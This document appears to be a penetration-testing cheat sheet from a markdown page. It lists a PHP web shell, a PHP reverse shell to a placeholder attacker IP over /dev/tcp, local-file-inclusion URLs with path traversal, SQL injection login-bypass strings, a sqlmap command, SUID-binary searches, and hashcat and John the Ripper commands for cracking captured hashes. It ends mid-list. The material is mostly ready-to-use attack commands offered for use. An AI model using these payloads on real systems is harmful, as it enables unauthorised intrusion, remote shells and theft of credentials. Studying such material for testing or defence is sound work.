 **Impromptu Web Servers**

`python -m SimpleHTTPServer 80`

`php -S 0.0.0.0:80 -t .`

**PHP Remote Code Execution:**

`<?php echo shell_exec($_GET['cmd']);?>`

`<?php print shell_exec('/bin/bash >& /dev/tcp/<attackerIP>/<nc port> 0>&1'); ?>`

**PHP LFI**

`http://<target>/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../../../../../../../../../`

`http://<target>/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/www/phpmyadmin/index.php`

**Find all SUID binaries:**

`find / -perm +6000 -type f -exec ls -ld {} \;`

`find / -user root -perm -4000 -print 2>/dev/null`

**SQL Injection strings:**

```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```

**MSSQL Server sqlmap string**

`sqlmap -u http://<target> --dbms="Microsoft SQL Server 2000" --data="txtLoginID=admin&txtPassword=test&cmdSubmit=Login" -p txtLoginID --method=POST`

### Crackin' Passwords 'n' Shit

#### Hashcat-ing:

**Windoze:**

`hashcat64.exe -m 400 -a 0 -o hashcatted.txt --remove WORDPRESS_HASH e:\wordlists\rockyou.txt`

`hashcat64.exe -m 1000 NTLM_HASH_HERE e:\wordlists\rockyou.txt`

#### JtR // John:

1. `cd loot`

2. `unshadow passwd shadow > unshadow`

3. `john --wordlist=/usr/share/wordlists/rockyou.txt unshadow` **or**
